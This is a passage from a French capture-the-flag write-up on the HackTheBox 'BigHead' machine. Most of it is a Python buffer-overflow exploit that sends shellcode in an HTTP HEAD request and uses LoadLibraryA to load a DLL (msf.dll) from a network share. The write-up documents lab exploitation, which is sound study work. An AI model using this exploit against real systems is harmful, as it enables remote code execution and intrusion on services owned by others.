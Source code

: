 ![BigHead CTF Nginx proxy_pass Connection: Close Wireshark capture](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bighead_cnx_close.png)

Il semble qu'aucun bypass ne soit possible en raison du buffering, pas même l'emploi d'un transfert [chunked](https://en.wikipedia.org/wiki/Chunked_transfer_encoding)...  

Il va donc falloir trouver une autre solution :-/   

Mais sinon ça crashe...
-----------------------

Le second exploit que j'ai tenté ce concentrait donc sur le fait de tout faire en une seule passe (inline). La méthode employée ici est simplement d'avoir recours à *LoadLibraryA* qui fait partie des fonctions importées par le binaire.  

```python
import socket
import struct
from binascii import hexlify
from time import sleep

TARGET = '127.0.0.1'
PORT = 80

jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll
sock = socket.socket()
sock.connect((TARGET, PORT))

print("Sending first stage...")
shellcode = "/90"          # change to /CC for debuging
shellcode += "EB25"        # jmp +39 (jump to relative call)
shellcode += "58"          # pop eax (stack address)
shellcode += "83ec40"      # sub esp, 64
shellcode += "89e5"        # mov ebp, esp
shellcode += "89ea"        # mov edx, ebp
shellcode += "89ee"        # mov esi, ebp
shellcode += "50"          # push eax
shellcode += "B8AA681340"  # mov eax, 0x401368aa
shellcode += "C1E808"      # shr eax, 8 (eax = LoadLibraryA)
shellcode += "FFE0"        # jmp eax
shellcode += "1" * (73 - len(shellcode))

buff2 = "E8D6FFFFFF" # call instruction après le jmp
buff2 += hexlify(b"\\\\vboxsrv\\shared\\msf.dll").decode()

buff = "HEAD " + shellcode + hexlify(struct.pack("I", jmp_eax)).decode() + buff2
buff += " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
print("buff length is", len(buff))

sock.send(buff.encode())
sleep(1)
sock.close()
```
